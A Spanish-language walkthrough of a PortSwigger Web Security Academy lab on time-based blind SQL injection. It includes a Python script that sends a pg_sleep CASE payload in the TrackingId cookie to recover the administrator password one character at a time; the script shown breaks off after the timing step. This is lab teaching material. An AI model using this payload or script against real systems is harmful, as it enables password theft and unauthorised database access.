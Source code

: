![](/assets/portswigger/sqli/web67.png)

## Blind SQL injection with time delays and information retrieval 

- <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>.

- Ahora nos vamos aprovechar del tiempo para poder dumpear datos. 

- Bueno para dumpear datos es igual que el script de python3 pero ahora tenemos que usar el tiempo asta ahora sabemos que la tabla se users y el usuario se llama administrator. 

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ae40016039741e7814a1bbe003600ff.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "1lFKg9knAZv6c4Rh'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                'session': 'GFWmEskRVbNs1roHXayzNqy3kmOWofMd'
            }
            
            p1.status(cookies['TrackingId'])

            time_start = time.time()

            r = requests.get(main_url, cookies=cookies)
            
            time_end = time.time()

```